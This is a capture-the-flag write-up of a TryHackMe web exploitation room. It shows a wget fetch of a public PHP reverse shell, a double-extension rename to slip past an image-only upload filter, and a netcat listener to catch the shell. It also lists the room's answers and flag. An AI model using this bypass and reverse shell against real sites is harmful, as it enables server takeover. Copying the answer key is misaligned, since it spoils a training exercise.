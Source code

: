 ```yaml
---
description: Web Exploitation - GET ; Upload ; Reverse Shell
---
```


# The Elf Strikes Back!

## Video

{% embed url="https://www.youtube.com/watch?v=F\_nTIX-q32k&" %}

## Rooms

[Upload vulns](https://tryhackme.com/room/uploadvulns)

[Intro to Shells](https://tryhackme.com/room/introtoshells)

## Resources

[PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

## Challenge

Open the site

![](../.gitbook/assets/image%20%2821%29.png)

> You have been assigned an ID number for your audit of the system: **`ODIzODI5MTNiYmYw`**
>
> http://10.10.236.79/?id=ODIzODI5MTNiYmYw

![](../.gitbook/assets/image%20%2854%29.png)

What string of text needs adding to the URL to get access to the upload page?

{% hint style="success" %}
?id=ODIzODI5MTNiYmYw
{% endhint %}

![](../.gitbook/assets/image%20%2835%29.png)

What type of file is accepted by the site?

{% hint style="success" %}
Image
{% endhint %}

Bypass the filter and upload a reverse shell.

```text
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

mv php-reverse-shell.php image.jpeg.php
```

Change the following parameters in the file

![](../.gitbook/assets/image%20%2852%29.png)

![](../.gitbook/assets/image%20%2862%29.png)

Tried /uploads, /images, /media, /resources

![](../.gitbook/assets/image%20%2840%29.png)

In which directory are the uploaded files stored?

{% hint style="success" %}
/uploads/
{% endhint %}

![](../.gitbook/assets/image%20%2826%29.png)

Activate your reverse shell and catch it in a netcat listener!

{% hint style="success" %}
No answer needed
{% endhint %}

![](../.gitbook/assets/image%20%2837%29.png)

What is the flag in /var/www/flag.txt?

{% hint style="success" %}
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}
{% endhint %}

